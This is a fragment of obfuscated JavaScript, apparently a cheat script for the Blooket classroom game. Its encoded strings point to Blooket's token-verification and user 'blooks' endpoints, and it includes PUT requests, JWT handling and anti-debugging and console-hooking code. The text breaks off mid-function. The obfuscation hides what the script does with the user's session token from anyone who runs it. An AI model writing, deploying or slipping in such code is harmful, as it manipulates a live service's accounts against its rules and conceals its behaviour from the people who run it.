 (function(_0x3578db,_0x4324d7){function _0x25148(_0x50d38d,_0x401f8e,_0x8505e1,_0x4017cb,_0x5c106b){return _0x5cbd(_0x401f8e- -0x96,_0x50d38d);}const _0x15e6ef=_0x3578db();function _0x91ceb7(_0x370a12,_0x437b4a,_0x12065f,_0x1eccf5,_0x39eb22){return _0x5cbd(_0x39eb22- -0x325,_0x12065f);}function _0xa9943(_0x1d4d9c,_0x36dd1c,_0x32a73d,_0x2220a2,_0x50c805){return _0x5cbd(_0x1d4d9c- -0x366,_0x50c805);}function _0x10805f(_0x3f0292,_0x2f19f6,_0x45fc3f,_0xab6a8e,_0x6cdd5b){return _0x5cbd(_0x3f0292- -0x1f5,_0x6cdd5b);}function _0xd64e07(_0x4edbf9,_0x294c7e,_0x5964b4,_0x28eee6,_0x4dc87e){return _0x5cbd(_0x28eee6- -0x25a,_0x5964b4);}while(!![]){try{const _0x2fc802=-parseInt(_0x91ceb7(-0x253,-0x2a0,-0x2ca,-0x2c6,-0x286))/(-0xac5+0x58f*-0x5+-0xcdb*-0x3)*(parseInt(_0xd64e07(-0x1ad,-0x1d7,-0x1ec,-0x19d,-0x1f8))/(-0x2*-0x61f+0x211*-0x11+-0x1*-0x16e5))+-parseInt(_0xd64e07(-0x1d8,-0x1f0,-0x180,-0x1c5,-0x1f4))/(0x389*0x3+-0xb5*-0xb+-0x125f)*(parseInt(_0x10805f(-0xf7,-0xc4,-0xa9,-0xc4,-0x108))/(0x1f80+-0x1965+0x617*-0x1))+-parseInt(_0x10805f(-0x180,-0x1b7,-0x186,-0x125,-0x180))/(0xe6a+-0x7*0x53+-0x2*0x610)*(-parseInt(_0x91ceb7(-0x2ac,-0x27b,-0x2d7,-0x235,-0x285))/(0x111e+-0x1*0x24cd+0x13b5))+-parseInt(_0xa9943(-0x2f5,-0x2b2,-0x2b0,-0x2ec,-0x2c4))/(-0x1*0x1dc5+0x1*-0x61c+0x23e8)*(-parseInt(_0x10805f(-0xd7,-0x12a,-0xff,-0x8a,-0xae))/(0x211f+-0x230d+-0x1*-0x1f6))+parseInt(_0xd64e07(-0x1d3,-0x1d8,-0x1c5,-0x1c1,-0x21d))/(0x1*0x2545+0x12*-0x20b+-0x2*0x3b)+-parseInt(_0x91ceb7(-0x2ae,-0x23e,-0x241,-0x25a,-0x289))/(-0x22*-0x9a+-0x11*-0x1d3+-0x5*0xa49)*(parseInt(_0x91ceb7(-0x24e,-0x28c,-0x2c0,-0x22f,-0x281))/(-0x22*0xd6+0x35b+0x4*0x647))+-parseInt(_0xa9943(-0x2c3,-0x287,-0x283,-0x28a,-0x30e))/(0xc78+0x1*0x137b+-0x1fe7)*(-parseInt(_0xa9943(-0x2de,-0x313,-0x2f5,-0x2f9,-0x2a4))/(-0x1163*0x1+-0x1a65+0x2bd5));if(_0x2fc802===_0x4324d7)break;else _0x15e6ef['push'](_0x15e6ef['shift']());}catch(_0x5e3215){_0x15e6ef['push'](_0x15e6ef['shift']());}}}(_0x30f3,-0xd4a6+0x365f8+0x82d1));async function getName(_0x260fa2){function _0x302eea(_0x189a1e,_0x157bf5,_0x5af28e,_0xa9375e,_0x52f8ac){return _0x5cbd(_0x5af28e- -0xb1,_0x189a1e);}const _0xcf5f9a={'wTEbl':function(_0x3ae7c2,_0xf801eb){return _0x3ae7c2(_0xf801eb);},'bJBXI':function(_0x58f71c,_0x202aae){return _0x58f71c+_0x202aae;},'PMCrU':_0x257cd8(-0x276,-0x1ea,-0x25a,-0x224,-0x221)+_0x5928da(0x201,0x1fa,0x1de,0x1e4,0x219)+_0x257cd8(-0x263,-0x226,-0x267,-0x22d,-0x280)+_0x528d89(-0x357,-0x2c7,-0x319,-0x308,-0x345)+_0x257cd8(-0x17a,-0x20d,-0x1b7,-0x1c6,-0x1f0)+_0x528d89(-0x235,-0x2bf,-0x297,-0x28f,-0x2b8)+_0x302eea(-0x28,-0xd,0xe,0x42,0x22)+_0x4174bc(0x4bf,0x4a8,0x4cc,0x4c6,0x462)+_0x5928da(0x2c2,0x2c7,0x2d8,0x293,0x28f)+_0x257cd8(-0x132,-0x179,-0x1b5,-0x180,-0x170)+_0x5928da(0x265,0x1f8,0x1e3,0x226,0x255)+'T+'};function _0x5928da(_0x10947d,_0x538103,_0xb0d01a,_0x4f9024,_0x22d458){return _0x5cbd(_0x4f9024-0x171,_0xb0d01a);}function _0x4174bc(_0x29f169,_0x55df2d,_0x3ea242,_0x444078,_0x567758){return _0x5cbd(_0x29f169-0x3ca,_0x567758);}const _0x243dd7=await _0xcf5f9a[_0x257cd8(-0x1f5,-0x1d9,-0x16a,-0x1af,-0x1ba)](fetch,_0xcf5f9a[_0x257cd8(-0x143,-0x1ea,-0x1e1,-0x18d,-0x1ab)](_0xcf5f9a[_0x257cd8(-0x1b2,-0x178,-0x1bc,-0x1d1,-0x220)],_0x260fa2));function _0x528d89(_0x4b1ea4,_0x32b3e1,_0x70ef20,_0x1e0bc5,_0x10c527){return _0x5cbd(_0x1e0bc5- -0x386,_0x70ef20);}const _0x178eb6=await _0x243dd7[_0x4174bc(0x4c9,0x4cc,0x48b,0x4d1,0x4e2)]();function _0x257cd8(_0x4615b0,_0x2cfccd,_0x4e1864,_0x291387,_0x669a35){return _0x5cbd(_0x291387- -0x2a3,_0x4615b0);}return _0x178eb6[_0x5928da(0x23b,0x253,0x226,0x23d,0x27e)];};function _0x30f3(){const _0x4d1864=['21QiTFKS','n()\x20','://ap','lkGfd','5BvnGgt','i.blo','iXsXn','type','NcFfn','xavTc','mpfUJ','MMskP','lengt','oket.','https','info','DORhg','OdGhV','pIeIb','n/jso','catio','entri','GnMrP','13SrJdOJ','nstru','oYNXy','{}.co','sflzM','DrxHB','rsvvC','EMnQX','n\x20(fu','w.blo','trace','DqDTO','join','3nAUGtJ','ewkqm','asFMZ','eLKPE','1672938hhVdEd','vPvkG','oIkVa','415220OpBxBV','QoQAs','com/','369001NvRKKz','1981020EanTTz','pvbrc','UrsSa','2879364dFcpPd','11padpkP','HIXjY','marlb','excep','map','lzKNs','hGBqj','hQnXb','XWEzs','ovpMN','iucYd','HNZDn','RmzHN','token','ts:\x0a','sPiKn','looks','en=JW','strin','WVyeE','kkgXc','bind','filte','rxkvD','NqFyM','2fkWvsK','hGJxS','ers/v','UDzrF','\x20\x20\x20\x20','qIHCa','uvbtQ','VNvtS','fDVtP','nctio','hiqex','vQkIK','ctor(','DwvCm','numSo','name','proto','mAGwR','dUObK','XiruR','tOGYH','PMCrU','hXGFn','://ww','appli','VQuGb','zFxxE','ers/b','conso','Resul','LIUcS','kzCVH','com/a','GiAXH','ellbl','?name','__pro','nRCrx','hKIzB','is\x22)(','gQqgg','Pghwy','xdtwy','table','YstOd','const','FfaOb','PPoHk','pRqNm','CcFGN','EYqwv','log','blook','to__','ook','wTEbl','erify','Sdaet','pi/us','\x22retu','cOfWW','JWT\x20','searc','SeLiU','LCevv','912664QCzmsY','json','ers/s','ghGrw','lqUDo','PUT','QXoFk','lOkdw','elNsL','ing','mfJyc','retur','Uxauf','ructo','QAuwm','tion','error','LCNHb','warn','SxsGO','CXGIt','lhgyl','VpRvQ','yArVA','bJBXI','eIGpl','lTVZG','lZnNP','rn\x20th',')+)+)','vikfO','SmhHV','225208mKEYCR','tqFuE','ohpFf','KtcyQ','-toke','n?tok','(((.+','bJeOj','apply','split','zXNov','toStr','gify','zCZLH'];_0x30f3=function(){return _0x4d1864;};return _0x30f3();}async function getBlooks(_0x2d09ec){function _0x302886(_0x58832b,_0x1d9d47,_0x559bc8,_0x56c537,_0x1584f5){return _0x5cbd(_0x58832b- -0x189,_0x1d9d47);}const _0x81da9a={'oIkVa':function(_0x14a068,_0x1d4f5c,_0x35481b){return _0x14a068(_0x1d4f5c,_0x35481b);},'QoQAs':function(_0x3f87db,_0x4fd3ea){return
